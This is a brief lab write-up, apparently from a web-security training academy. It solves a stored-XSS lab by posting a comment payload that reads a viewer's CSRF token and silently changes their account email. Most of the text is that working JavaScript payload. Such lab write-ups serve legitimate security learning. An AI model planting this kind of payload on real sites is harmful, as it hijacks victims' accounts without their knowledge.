 *This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
You can log in to your own account using the following credentials: wiener:peter*

Submitted the following payload into the comment section to solve the lab:
```html 
<!-- onloading, this script will steal their token by searching for it. it will then create a form with the token and submit the parameters in the POST request to the target URL, that is to change email-->
    <body onload="stealToken()">
        <script>
            function stealToken(){
                var token = document.getElementsByName('csrf')[0].value;

                var data = new FormData;
                data.append('csrf',token);
                data.append('email','evilman@gmail.com');


                fetch('/my-account/change-email',{
                    method: "POST",
                    mode: "no-cors",
                    body: data
                });
            }
        </script>
    </body>
    
```
![Screenshot 2024-05-17 at 7.10.25 PM](images/Screenshot%202024-05-17%20at%207.10.25%20PM.png)
